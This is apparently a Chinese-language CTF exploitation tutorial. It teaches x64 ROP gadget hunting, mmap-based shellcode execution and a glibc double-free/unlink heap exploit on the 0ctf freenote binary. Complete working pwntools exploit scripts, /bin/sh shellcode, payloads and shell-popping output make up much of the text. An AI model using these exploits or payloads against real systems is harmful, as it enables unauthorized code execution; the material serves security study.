


原文 by 蒸米   
## 0x00序

ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术，可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。上次我们主要讨论了linux_x64的ROP攻击。  

在这次的教程中我们会带来通用gadgets和堆漏洞利用的技巧，欢迎大家继续学习。 

另外文中涉及代码可在我的github下载:https://github.com/zhengmin1989/ROP_STEP_BY_STEP  

## 0x01 通用 gadgets part2

上次讲到了`__libc_csu_init()`的一条万能gadgets，其实不光`__libc_csu_init()`里的代码可以利用，默认gcc还会有如下自动编译进去的函数可以用来查找gadgets。  
```
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```
除此之外在程序执行的过程中，CPU只会关注于PC指针的地址，并不会关注是否执行了编程者想要达到的效果。因此，通过控制PC跳转到某些经过稍微偏移过的地址会得到意想不到的效果。  

比如说说我们反编译一下`__libc_csu_init()`这个函数的尾部：  
```
gdb-peda$ disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
……
   0x0000000000400606 <+102>:   movrbx,QWORD PTR [rsp+0x8]
   0x000000000040060b <+107>:   movrbp,QWORD PTR [rsp+0x10]
   0x0000000000400610 <+112>:   mov    r12,QWORD PTR [rsp+0x18]
   0x0000000000400615 <+117>:   mov    r13,QWORD PTR [rsp+0x20]
   0x000000000040061a <+122>:   mov    r14,QWORD PTR [rsp+0x28]
   0x000000000040061f <+127>:   mov    r15,QWORD PTR [rsp+0x30]
   0x0000000000400624 <+132>:   add    rsp,0x38
   0x0000000000400628 <+136>:   ret  
```
可以发现我们可以通过rsp控制r12-r15的值，但我们知道x64下常用的参数寄存器是rdi和rsi，控制r12-r15并没有什么太大的用处。不要慌，虽然原程序本身用是为了控制r14和r15寄存器的值。如下面的反编译所示：  
```
gdb-peda$ x/5i 0x000000000040061a
   0x40061a <__libc_csu_init+122>:  mov    r14,QWORD PTR [rsp+0x28]
   0x40061f <__libc_csu_init+127>:  mov    r15,QWORD PTR [rsp+0x30]
   0x400624 <__libc_csu_init+132>:  add    rsp,0x38
   0x400628 <__libc_csu_init+136>:  ret  
```
但是我们如果简单的对pc做个位移再反编译，我们就会发现esi和edi的值可以被我们控制了！如下面的反编译所示:  
```
gdb-peda$ x/5i 0x000000000040061b
   0x40061b <__libc_csu_init+123>:  movesi,DWORD PTR [rsp+0x28]
   0x40061f <__libc_csu_init+127>:  mov    r15,QWORD PTR [rsp+0x30]
   0x400624 <__libc_csu_init+132>:  add    rsp,0x38
   0x400628 <__libc_csu_init+136>:  ret    
   0x400629:    nop    DWORD PTR [rax+0x0]
gdb-peda$ x/5i 0x0000000000400620
   0x400620 <__libc_csu_init+128>:  movedi,DWORD PTR [rsp+0x30]
   0x400624 <__libc_csu_init+132>:  add    rsp,0x38
   0x400628 <__libc_csu_init+136>:  ret    
   0x400629:    nop    DWORD PTR [rax+0x0]
   0x400630 <__libc_csu_fini>:  repz ret 
```
虽然edi和esi只能控制低32位的数值，但已经可以满足我们的很多的rop需求了。  

除了程序默认编译进去的函数，如果我们能得到libc.so或者其他库在内存中的地址，就可以获得到大量的可用的gadgets。比如上一篇文章中提到的通用gadget只能控制三个参数寄存器的值并且某些值只能控制32位，如果我们想要控制多个参数寄存器的值的话只能去寻找其他的gadgets了。这里就介绍一个_dl_runtime_resolve()中的gadget，通过这个gadget可以控制六个64位参数寄存器的值，当我们使用参数比较多的函数的时候（比如mmap和mprotect）就可以派上用场了。  

我们把_dl_runtime_resolve反编译可以得到：  
``` 
0x7ffff7def200 <_dl_runtime_resolve>:   sub    rsp,0x38
0x7ffff7def204 <_dl_runtime_resolve+4>: mov    QWORD PTR [rsp],rax
0x7ffff7def208 <_dl_runtime_resolve+8>: mov    QWORD PTR [rsp+0x8],rcx
0x7ffff7def20d <_dl_runtime_resolve+13>:    mov    QWORD PTR [rsp+0x10],rdx
0x7ffff7def212 <_dl_runtime_resolve+18>:    mov    QWORD PTR [rsp+0x18],rsi
0x7ffff7def217 <_dl_runtime_resolve+23>:    mov    QWORD PTR [rsp+0x20],rdi
0x7ffff7def21c <_dl_runtime_resolve+28>:    mov    QWORD PTR [rsp+0x28],r8
0x7ffff7def221 <_dl_runtime_resolve+33>:    mov    QWORD PTR [rsp+0x30],r9
0x7ffff7def226 <_dl_runtime_resolve+38>:    movrsi,QWORD PTR [rsp+0x40]
0x7ffff7def22b <_dl_runtime_resolve+43>:    movrdi,QWORD PTR [rsp+0x38]
0x7ffff7def230 <_dl_runtime_resolve+48>:    call   0x7ffff7de8680 <_dl_fixup>
0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
0x7ffff7def238 <_dl_runtime_resolve+56>:    mov    r9,QWORD PTR [rsp+0x30]
0x7ffff7def23d <_dl_runtime_resolve+61>:    mov    r8,QWORD PTR [rsp+0x28]
0x7ffff7def242 <_dl_runtime_resolve+66>:    movrdi,QWORD PTR [rsp+0x20]
0x7ffff7def247 <_dl_runtime_resolve+71>:    movrsi,QWORD PTR [rsp+0x18]
0x7ffff7def24c <_dl_runtime_resolve+76>:    movrdx,QWORD PTR [rsp+0x10]
0x7ffff7def251 <_dl_runtime_resolve+81>:    movrcx,QWORD PTR [rsp+0x8]
0x7ffff7def256 <_dl_runtime_resolve+86>:    movrax,QWORD PTR [rsp]
0x7ffff7def25a <_dl_runtime_resolve+90>:    add    rsp,0x48
0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11
```
从0x7ffff7def235开始，就是这个通用gadget的地址了。通过这个gadget我们可以控制rdi，rsi，rdx，rcx， r8，r9的值。但要注意的是`_dl_runtime_resolve()`在内存中的地址是随机的。所以我们需要先用information leak得到_dl_runtime_resolve()在内存中的地址。那么`_dl_runtime_resolve()`的地址被保存在了哪个固定的地址呢？  

通过反编译level5程序我们可以看到write@plt()这个函数使用PLT [0] 去查找write函数在内存中的地址，函数jump过去的地址*0x600ff8其实就是`_dl_runtime_resolve()`在内存中的地址了。所以只要获取到0x600ff8这个地址保存的数据，就能够找到`_dl_runtime_resolve()`在内存中的地址：  
```
0000000000400420 <write@plt-0x10>:
  400420:   ff 35 ca 0b 20 00       pushq  0x200bca(%rip)        # 600ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
  400426:   ff 25 cc 0b 20 00       jmpq   *0x200bcc(%rip)        # 600ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
  40042c:   0f 1f 40 00             nopl   0x0(%rax)

gdb-peda$ x/x 0x600ff8
0x600ff8 <_GLOBAL_OFFSET_TABLE_+16>:    0x00007ffff7def200

gdb-peda$ x/21i 0x00007ffff7def200
   0x7ffff7def200 <_dl_runtime_resolve>:    sub    rsp,0x38
   0x7ffff7def204 <_dl_runtime_resolve+4>:  mov    QWORD PTR [rsp],rax
   0x7ffff7def208 <_dl_runtime_resolve+8>:  mov    QWORD PTR [rsp+0x8],rcx
   0x7ffff7def20d <_dl_runtime_resolve+13>: mov    QWORD PTR 
[rsp+0x10],rdx
….
```
另一个要注意的是，想要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：  
```
0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
……
0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11
```
所以我们接下来用ROPgadget查找一下libc.so中控制rax的gadget：  
```
ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"
0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
0x0000000000023950 : pop rax ; ret
0x000000000019176e : pop rax ; ret 0xffed
0x0000000000123504 : pop rax ; ret 0xfff0
```
0x0000000000023950刚好符合我们的要求。有了pop rax和_dl_runtime_resolve这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。  

## 0x02 利用mmap执行任意shellcode

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。  

我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的_dl_runtime_resolve中的通用gadgets泄露出got_write和_dl_runtime_resolve的地址。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```
随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。  
```
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )

shellcode_addr = 0xbeef0000

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)

payload3 += p64(shellcode_addr)
```
然后我们利用_dl_runtime_resolve里的通用gadgets调用mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0),开辟一段RWX的内存在0xbeef0000处。随后我们使用read(rdi=0, rsi=shellcode_addr, rdx=1024),把我们想要执行的shellcode读入到0xbeef0000这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。  

完整的exp8.py代码如下:  
``` python
#!/usr/bin/env python
frompwn import *    

elf = ELF('level5')
libc = ELF('libc.so.6') 

p = process('./level5')
#p = remote('127.0.0.1',10001)  

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)
plt_read = elf.symbols['read']
print "plt_read: " + hex(plt_read)
linker_point = 0x600ff8
print "linker_point: " + hex(linker_point)
got_pop_rax_ret = 0x0000000000023970
print "got_pop_rax_ret: " + hex(got_pop_rax_ret)    

main = 0x400564 

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)
off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
print "off_mmap_addr: " + hex(off_mmap_addr)
off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
print "off_pop_rax_ret: " + hex(off_pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)   

p.recvuntil("Hello, World\n")   

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)    

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)
mmap_addr = write_addr - off_mmap_addr
print "mmap_addr: " + hex(mmap_addr)
pop_rax_ret = write_addr - off_pop_rax_ret
print "pop_rax_ret: " + hex(pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)   

p.recvuntil("Hello, World\n")   

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)    

linker_addr = u64(p.recv(8))
print "linker_addr + 0x35: " + hex(linker_addr + 0x35)  

p.recvuntil("Hello, World\n")   

shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )  

#   GADGET
#   0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
#   0x7ffff7def238 <_dl_runtime_resolve+56>:    mov    r9,QWORD PTR [rsp+0x30]
#   0x7ffff7def23d <_dl_runtime_resolve+61>:    mov    r8,QWORD PTR [rsp+0x28]
#   0x7ffff7def242 <_dl_runtime_resolve+66>:    movrdi,QWORD PTR [rsp+0x20]
#   0x7ffff7def247 <_dl_runtime_resolve+71>:    movrsi,QWORD PTR [rsp+0x18]
#   0x7ffff7def24c <_dl_runtime_resolve+76>:    movrdx,QWORD PTR [rsp+0x10]
#   0x7ffff7def251 <_dl_runtime_resolve+81>:    movrcx,QWORD PTR [rsp+0x8]
#   0x7ffff7def256 <_dl_runtime_resolve+86>:    movrax,QWORD PTR [rsp]
#   0x7ffff7def25a <_dl_runtime_resolve+90>:    add    rsp,0x48
#   0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11  

shellcode_addr = 0xbeef0000 

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)  

payload3 += p64(shellcode_addr) 

print "\n#############sending payload3#############\n"
p.send(payload3)
sleep(1)    

#raw_input()    

p.send(shellcode+"\n")
sleep(1)    

p.interactive()
``` 
成功pwn后的效果如下：  
```
$ python exp8.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
plt_read: 0x400440
linker_point: 0x600ff8
got_pop_rax_ret: 0x23950
off_mmap_addr: -0x9770
off_pop_rax_ret: 0xc2670

#############sending payload1#############

write_addr: 0x7f9d39d95fc0
mmap_addr: 0x7f9d39d9f730
pop_rax_ret: 0x7f9d39cd3950

#############sending payload2#############

linker_addr + 0x35: 0x7f9d3a083235

#############sending payload3#############

[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x03 堆漏洞利用之double free

讲了那么多stack overflow的例子，我们现在换换口味，先从double free开始讲一下堆漏洞的利用。Double free的意思是一个已经被free的内存块又被free了第二次。正常情况下，如果double free，系统会检测出该内存块已经被free过了，不能被free第二次，程序会报错然后退出。但是如果我们精心构造一个假的内存块就可骗过系统的检测，然后得到内存地址任意写的权限。随后就可以修改got表将接下来会执行的函数替换成system()再将参数改为我们想要执行的指令，比如"/bin/sh"。最后就可以执行system("/bin/sh")了。  

想要学习double free，首先要了解什么是free chunk和allocated chunk。这个在网上有大量的资料，请感兴趣的同学自学。  

   
然后要了解Fast bin，Unsorted bin，Small bin和Large bin的概念。这个可以看这篇文章学习：  

https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/  

除此之外还有个gdb工具可以帮助我们查看内存中堆的信息，这对我们调试程序会有很大的帮助:  

https://github.com/cloudburst/libheap  

等到对堆的基本概念了解的差多了就可以学习如何利用unlink来做到内存写了。在最早版本的unlink中对内存chunk是没有任何检测的，因此我们可以很容易的做到内存任意写。但现在版本的libc中会对free的那个chunk进行检测，这个chunk的前一个chunk的bk指针和这个chunk的后一个chunk的fd指针必须指向这个即将free的chunk才行。为了bypass这个检测，我们必须在内存中找到一个地址X指向P，然后将P的fd和bk指向X。最后再触发double free的unlink，就可以将P地址的值设置为X了。  

   

我们这次使用0ctf中的freenote这道题来实践一下double free漏洞的利用。执行这个程序我能看到这其实就是一个note记事本程序。通过new note和delete note可以malloc()和free()内存。  
```
$ ./freenote_x64 
== 0ops Free Note ==
1. List Note
2. New Note
3. Edit Note
4. Delete Note
5. Exit
====================
```
但是这个程序有两个漏洞，一个是建立新note的时候在note的结尾处没有加"\0"因此会造成堆或者栈的地址泄露，另一个问题就是在delete note的时候，并不会检测这个note是不是已经被删除过了，因此可以删除一个note两遍，造成double free。  

首先我们要泄露libc和heap在内存中的地址。因为note的结尾没有"\0"，因此在输出时会把后面的内容打印出来。因为freelist的头部保存在了libc的.bss段，因此我们可以见通过删除两个note再删除一个note，然后再建立一个新note的方法来泄露出libc在内存中的地址：  
```
notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\xb8")
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
delete_note(1)
delete_note(0)

system_sh_addr = leaklibcaddr - 0x3724a8
print "system_sh_addr: " + hex(system_sh_addr)
binsh_addr = leaklibcaddr - 0x23e7f1
print "binsh_addr: " + hex(binsh_addr)
```
同样的如果让某个非使用中 chunk 的fd栏位指向另一个 chunk，并且让note的内容刚好接上，就可以把 chunk在堆上的位置给洩漏出来。这样我们就能得到堆的基址。  
```
notelen=0x10    

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)  

new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")    

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leakheapaddr) 

delete_note(0)
delete_note(1)
delete_note(3)  

notelen = 0x80  

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)   

delete_note(2)
delete_note(1)
delete_note(0)
```
通过泄露的libc地址我们可以计算出system()函数和"/bin/sh"字符串在内存中的地址，通过泄露的堆的地址我们能得到note table的地址。然后我们构造一个假的note，利用使用double free的漏洞触发unlink，将note0的位置指向note table的地址。随后我们就可以通过编辑note0来编辑note table了。通过编辑note table我们把note0指向free()函数在got表中的地址，把note1指向"/bin/sh"在内存中的地址。然后我们编辑note0把free()函数在got表中的地址改为system()的地址。最后我们执行delete note1操作。因为我们把note1的地址指向了"/bin/sh"，所以正常情况下程序会执行free("/bin/sh")，但别忘了我们修改了got表中free的地址，所以程序会执行system("/bin/sh")，最终达到了我们的目的：  
```
fd = leakheapaddr - 0x1808 #notetable
bk = fd + 0x8   

payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)  

new_note(payload)   

delete_note(1)  

free_got = 0x602018 

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2))  

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))   

delete_note(1)  

p.interactive()
```
执行exp的结果如下：  
```
$ python exp9.py 
[+] Started program './freenote_x64'
b8a75eb2b57f
0x7fb5b25ea7b8
system_sh_addr: 0x7fb5b2278310
binsh_addr: 0x7fb5b23abfc7
20684b02
0x24b6820
[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x04 总结

除了64位的freenote，blue-lotus还弄了一个32位版的freenote给大家练习。这些binary和exp都可以在我的github上下载到：  

https://github.com/zhengmin1989/ROP_STEP_BY_STEP  

另外，下篇我会带来arm上rop的利用，敬请期待。  

## 0x05 参考资料

http://v0ids3curity.blogspot.com/2013/07/some-gadget-sequence-for-x8664-rop.html    
[掘金ctf](http://paper.seebug.org/papers/Archive/refs/2015-1029-yangkun-Gold-Mining-CTF.pdf)